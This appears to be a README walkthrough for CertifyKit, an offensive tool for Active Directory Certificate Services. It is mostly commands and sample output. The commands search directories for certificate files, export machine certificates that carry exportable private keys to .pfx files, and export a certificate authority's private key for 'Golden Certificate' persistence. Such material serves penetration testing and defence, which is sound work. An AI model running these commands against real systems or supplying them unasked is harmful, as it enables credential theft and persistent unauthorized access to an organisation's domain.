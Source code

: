 ## Example Walkthrough
#### THEFT4 - *Theft of existing certificates via file/directory triage*

Search certificate files in a folder recursively

```
CertifyKit.exe list /certificate:C:\Users\ /recurse
```

#### THEFT1 - *Export certificate using Window’s Crypto APIs*

List certificates in store for personal certificates assigned to the local machine.

```
C:\>.\CertifyKit.exe list /storename:my /storelocation:localmachine
CertifyKit (Hagrid29 version of Certify)
More info: https://github.com/Hagrid29/CertifyKit/

[*] Action: List Certificates

  Location           : My, LocalMachine
  Issuer             : CN=corp-CORPADCS-CA-1, DC=corp, DC=local
  HasPrivateKey      : True
  KeyExportable      : True
  Thumbprint         : 64F8A2CCF06C7609918D8DA66B1A29B91722E392
  EnhancedKeyUsages  : <null>      [!] Certificate can be used for client authentication!
  SubjectAltName     :

```

Export certificate specifying thumbprint to file

```
C:\>.\CertifyKit.exe list /storename:my /storelocation:localmachine /certificate:64F8A2CCF06C7609918D8DA66B1A29B91722E392 /outfile:cert.pfx
CertifyKit (Hagrid29 version of Certify)
More info: https://github.com/Hagrid29/CertifyKit/

[*] Action: List Certificates

[*] Export certificate   : cert.pfx


Certify completed in 00:00:00.0944640
```

#### DPERSIST1 - *Golden Certificate*

Export CA's certificate with private key on CA server

```
CertifyKit.exe list /golden /outfile:gold.p12
```
